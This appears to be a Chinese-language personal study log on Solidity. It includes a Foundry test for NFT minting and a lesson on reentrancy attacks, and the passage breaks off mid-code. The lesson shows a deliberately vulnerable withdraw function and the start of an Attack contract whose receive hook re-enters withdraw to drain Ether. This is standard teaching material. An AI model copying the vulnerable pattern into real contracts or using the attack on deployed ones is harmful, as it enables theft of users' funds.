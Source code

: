 测试代码
```sol
pragma solidity 0.8.20;

import "forge-std/Test.sol";
import "../src/NFT.sol";

contract NFTTest is Test {
    NFT private nft;

    function setUp() public {
        nft = new NFT("NFT_tutorial", "TUT", "baseUri");
    }

    function test_RevertMintWithoutValue() public {
        vm.expectRevert(NFT.MintPriceNotPaid.selector);
        nft.mintTo{value: 0 ether}(address(1));
    }

    function test_MintPricePaid() public {
        nft.mintTo{value: 0.05 ether}(address(1));
    }

    function test_RevertMintToZeroAddress() public {
        vm.expectRevert("INVALID_RECIPIENT");
        nft.mintTo{value: 0.05 ether}(address(0));
    }
}
```
### 07.24
- 今日学习时间：7.24  4 p.m.--5 p.m.
- 学习内容小结：学习GPU代币合约漏洞
### 07.25
- 今日学习时间：7.25  4 p.m.--6 p.m.
- 学习内容小结：学习重入攻击原理
#### 重入攻击
原理为在函数内部的多次操作，状态改变为在最后一次操作之后，故可以在合约状态改变之前，多次进行操作，直到目的达成。
```sol
function withdraw() public {
     uint256 bal = balances[msg.sender];
    require(bal > 0);
    
    (bool sent,) = msg.sender.call{value: bal}("");
    require(sent, "Failed to send Ether");

    balances[msg.sender] = 0;
    }
```
当向合约中存入1ether，满足bal >0，即可进行withdraw操作。
编写attack函数
```sol
contract Attack {
    EtherStore public etherStore;
    uint256 public constant AMOUNT = 1 ether;

    constructor(address _etherStoreAddress) {
        etherStore = EtherStore(_etherStoreAddress);
    }

    // receive is called when EtherStore sends Ether to this contract.
    receive() external payable {
        if (address(etherStore).balance >= AMOUNT) {
            etherStore.withdraw();
```